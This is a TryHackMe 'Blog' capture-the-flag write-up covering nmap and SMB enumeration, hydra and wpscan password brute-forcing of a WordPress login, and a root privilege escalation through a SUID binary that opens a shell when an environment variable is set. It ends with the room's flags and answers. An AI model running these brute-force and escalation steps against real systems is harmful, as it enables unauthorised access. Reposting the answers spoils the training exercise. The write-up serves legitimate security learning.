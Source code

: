 ```yaml
---
title: "Blog - TryHackMe"
author: Ludovic COULON
date: 2020-07-17
hero: ./images/hero.png
excerpt: "Writeup for the Blog CTF challenge"
---
```


[TryHackMe | Blog](https://tryhackme.com/room/blog)

Welcome to Blog room, a puzzle-style CTF. Collecting the item, solving the puzzle and escaping the nightmare is your top priority.

Can you survive until the end?If you have any question, do not hesitate to DM me on the discord channel.

![https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80](https://images.unsplash.com/photo-1486312338219-ce68d2c6f44d?ixlib=rb-1.2.1&ixid=eyJhcHBfaWQiOjEyMDd9&auto=format&fit=crop&w=1352&q=80)

Photo by [Glenn Carstens-Peters](https://unsplash.com/@glenncarstenspeters?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText) on [Unsplash](https://unsplash.com/s/photos/blog?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)

Billy Joel made a blog on his home computer and has started working on it. It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it! Billy has some
weird things going on his laptop. Can you maneuver around and get what
you need? Or will you fall down the rabbit hole...

In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

Credit to [Sq00ky](https://tryhackme.com/p/Sq00ky) for the root privesc idea ;)

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.37.237
```

```bash
22/tcp  open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3hfvTN6e0P9PLtkjW4dy+6vpFSh1PwKRZrML7ArPzhx1yVxBP7kxeIt3lX/qJWpxyhlsQwoLx8KDYdpOZlX5Br1PskO6H66P+AwPMYwooSq24qC/Gxg4NX9MsH/lzoKnrgLDUaAqGS5ugLw6biXITEVbxrjBNdvrT1uFR9sq+Yuc1JbkF8dxMF51tiQF35g0Nqo+UhjmJJg73S/VI9oQtYzd2GnQC8uQxE8Vf4lZpo6ZkvTDQ7om3t/cvsnNCgwX28/TRcJ53unRPmos13iwIcuvtfKlrP5qIY75YvU4U9nmy3+tjqfB1e5CESMxKjKesH0IJTRhEjAyxjQ1HUINP
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJtovk1nbfTPnc/1GUqCcdh8XLsFpDxKYJd96BdYGPjEEdZGPKXv5uHnseNe1SzvLZBoYz7KNpPVQ8uShudDnOI=
|   256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICfVpt7khg8YIghnTYjU1VgqdsCRVz7f1Mi4o4Z45df8

80/tcp  open  http        syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-generator: WordPress 5.0
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog

139/tcp open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

445/tcp open  netbios-ssn syn-ack Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
| nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   BLOG<00>             Flags: <unique><active>
|   BLOG<03>             Flags: <unique><active>
|   BLOG<20>             Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 28514/tcp): CLEAN (Couldnt connect)
|   Check 2 (port 48324/tcp): CLEAN (Couldnt connect)
|   Check 3 (port 42470/udp): CLEAN (Timeout)
|   Check 4 (port 36313/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2020-07-12T19:07:26+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-07-12T19:07:26
|_  start_date: N/A
```

As you can see there is a SMB server open with the guest credentials, let's see what's inside of the server.

```bash
➜  blog smbclient -L 10.10.37.237
Enter WORKGROUP\kali password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        BillySMB        Disk      Billy's local SMB Share
        IPC$            IPC       IPC Service (blog server (Samba, Ubuntu))
SMB1 disabled -- no workgroup available
```

![https://imgur.com/BMgqkDa.png](https://imgur.com/BMgqkDa.png)

![https://imgur.com/ONKwYZa.png](https://imgur.com/ONKwYZa.png)

```bash
➜  blog steghide extract -sf Alice-White-Rabbit.jpg
Enter passphrase:
wrote extracted data to "rabbit_hole.txt".
➜  blog cat rabbit_hole.txt
You've found yourself in a rabbit hole, friend.
```

Let's see if we can enumerate some username to brute-force the administration page of WordPress

![https://imgur.com/ttyfVpD.png](https://imgur.com/ttyfVpD.png)

Nice, we have the username : bjoel, kwheel

Brute-force with hydra

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1&redirect_to:blog.thm/wp-admin/'
```

With wpscan

```bash
wpscan --url blog.thm -U kwheel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login
```

![https://imgur.com/NFazDUA.png](https://imgur.com/NFazDUA.png)

![https://imgur.com/3UG7eKi.png](https://imgur.com/3UG7eKi.png)

On the website you can see the CVE let's try it 🥺

![https://imgur.com/dl0F04t.png](https://imgur.com/dl0F04t.png)

![https://imgur.com/5T7o6Jf.png](https://imgur.com/5T7o6Jf.png)

### #1 root.txt

```bash
find / -xdev -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

![https://imgur.com/BdKvKff.png](https://imgur.com/BdKvKff.png)

With Ghidra I reverse engineering the binary 🐉

```c
int main(void) {
  char *adminEnv = getenv("admin");

  if (adminEnv == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }

  return 0;
}
```

Exploit

```bash
$ export admin=SOMTHINGHERE
# Execute the bin
$ /usr/sbin/checker
```

Nice ! You now have the root privilege 🤩

```bash
root@blog:/dev/shm: cat /root/root.txt
cat /root/root.txt
9a0b2b618bef9bfa7ac28c1353d9f318
```

### #2 user.txt

```bash
root@blog:/dev/shm:: find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt

root@blog:/dev/shm: cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
```

### #3 Where was user.txt found?

```bash
/media/usb
```

### #4 What CMS was Billy using?

```bash
Wordpress
```

### #5 What version of the above CMS was being used?

![https://imgur.com/9JSk8SX.png](https://imgur.com/9JSk8SX.png)

```bash
5.0
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://tryhackme-badges.s3.amazonaws.com/boperXD.png" alt="TryhackMeProfile" />
  </a>
</center>
